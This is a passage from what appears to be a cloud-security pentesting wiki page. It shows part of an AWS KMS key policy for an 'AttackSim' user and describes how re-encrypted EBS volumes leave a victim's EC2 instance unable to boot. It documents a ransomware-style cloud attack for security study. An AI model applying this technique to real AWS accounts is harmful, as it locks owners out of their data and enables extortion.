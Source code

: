 ```json
                "kms:UntagResource",
                "kms:ScheduleKeyDeletion",
                "kms:CancelKeyDeletion"
            ],
            "Resource": "*"
        },
        {
            "Sid": "Allow use of the key",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*"
        },
        {
            "Sid": "Allow attachment of persistent resources",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:CreateGrant",
                "kms:ListGrants",
                "kms:RevokeGrant"
            ],
            "Resource": "*",
            "Condition": {
                "Bool": {
                    "kms:GrantIsForAWSResource": "true"
                }
            }
        }
    ]
}
```

Wait a moment for the newly set key policy to propagate. Then return to the 'victim' account and attempt to attach one of the newly encrypted EBS volumes. You'll find that you can attach the volume.

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

But when you attempt to actually start the EC2 instance back up with the encrypted EBS volume it'll just fail and go from the 'pending' state back to the 'stopped' state forever since the attached EBS volume can't be decrypted using the key since the key policy no longer allows it.
